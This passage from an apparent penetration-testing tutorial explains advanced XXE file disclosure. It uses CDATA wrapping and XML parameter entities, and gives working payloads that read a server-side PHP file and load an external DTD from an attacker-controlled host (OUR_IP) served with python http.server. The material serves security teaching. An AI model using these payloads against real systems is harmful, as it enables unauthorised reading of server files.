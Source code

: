 **Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## **Advanced File Disclosure**

### **Advanced Exfiltration with CDATA**

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`).  This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

This will not work, since XML prevents joining internal and external entities

### XML Parameter Entities

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.  What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```

## **Error Based XXE**
